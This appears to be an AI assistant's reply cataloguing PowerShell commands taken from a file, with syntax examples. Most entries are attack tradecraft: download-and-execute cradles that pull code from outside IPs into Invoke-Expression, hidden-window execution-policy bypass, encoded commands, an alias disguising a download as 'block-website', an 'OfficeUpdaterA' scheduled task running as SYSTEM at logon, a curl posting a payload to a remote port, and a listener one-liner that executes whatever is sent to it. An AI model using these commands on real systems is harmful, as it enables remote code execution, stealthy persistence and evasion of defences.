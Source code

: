 Here are the PowerShell commands found in the file, along with syntax examples that include switches and parameters:

---

### 1. Invoke-WebRequest / Invoke-RestMethod

#### Syntax Example:
```powershell
Invoke-WebRequest -Uri "http://1.2.3.4/index.html"
Invoke-RestMethod -Uri "http://1.2.3.4/index.html" -Method POST -Body "data"
```
**Switches/parameters:**  
- -Uri <url>
- -Method <GET|POST|PUT|DELETE>
- -Body <data>

---

### 2. .NET WebClient (DownloadFile/DownloadString)

#### Syntax Example:
```powershell
(New-Object System.Net.WebClient).DownloadFile("http://1.2.3.4/index.html", "C:\path\to\file")
(New-Object System.Net.WebClient).DownloadString("http://1.2.3.4/index.html")
```
**Switches/parameters:**  
- URL to download  
- Destination path (for DownloadFile)

---

### 3. System.Net.HttpListener (Create a Web Server)

#### Syntax Example:
```powershell
$http = New-Object System.Net.HttpListener
$http.Prefixes.Add("http://127.0.0.1:8080/")
$http.Start()
# ... handle requests/responses ...
$http.Stop()
```
**Switches/parameters:**  
- Prefixes.Add("http://IP:PORT/")

---

### 4. Invoke-Expression

#### Syntax Example:
```powershell
Invoke-Expression $Command
"get-process" | Invoke-Expression
```
**Switches/parameters:**  
- String/command to execute

---

### 5. PowerShell.exe with Options

#### Syntax Example:
```powershell
PowerShell.exe -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -uri http://199.63.64.31/index.html).content"
PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring("http://1.2.3.4/index.html"))'
PowerShell.exe -encodedCommand "Base64String"
```
**Switches/parameters:**  
- -ExecutionPolicy <policy>
- -Command <string>
- -WindowStyle <hidden|normal>
- -NoLogo
- -NonInteractive
- -ep <policy> (short for -ExecutionPolicy)
- -nop (short for -NoProfile)
- -encodedCommand <Base64String>

---

### 6. Base64 Encoding/Decoding

#### Syntax Example:
```powershell
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('get-process'))
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
powershell.exe -encodedCommand "Base64String"
```
**Switches/parameters:**  
- Base64 string as input

---

### 7. PowerShell Aliases

#### Syntax Example:
```powershell
sal block-website iwr
block-website -uri http://1.2.3.4
iex (iwr 1.2.3.4/index.html).Content
```
**Switches/parameters:**  
- Alias name
- Parameters as per the original cmdlet

---

### 8. Schtasks (Task Scheduler Command)

#### Syntax Example:
```powershell
schtasks /create /tn OfficeUpdaterA /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe ..." /sc onlogon /ru SYSTEM
```
**Switches/parameters:**  
- /create
- /tn <task_name>
- /tr <task_run_command>
- /sc <schedule>
- /ru <run_as_user>

---

### 9. Curl (used in workflow)

#### Syntax Example:
```bash
curl -X POST -H "Content-type: text/plain" --data-binary @/path/to/payload.ps1 http://199.63.64.31:42000/
```
**Switches/parameters:**  
- -X <method>
- -H <header>
- --data-binary @<file>
- <URL>

---

### 10. Shortened PowerShell Webserver (one-liner)

#### Syntax Example:
```powershell
[Net.HttpListener]::new()|%{
  $_.Prefixes.Add("http://0.0.0.0:8080/");
  $_.Start();
  $c=$_.GetContext();
  iex ([IO.StreamReader]::new($c.Request.InputStream)).ReadToEnd();
  $c.Response.OutputStream.Close();
  $_.stop()
}
```
**Switches/parameters:**  
- Prefixes.Add
- Start/Stop methods

---

If you want syntax or parameter details for any specific command, let me know!
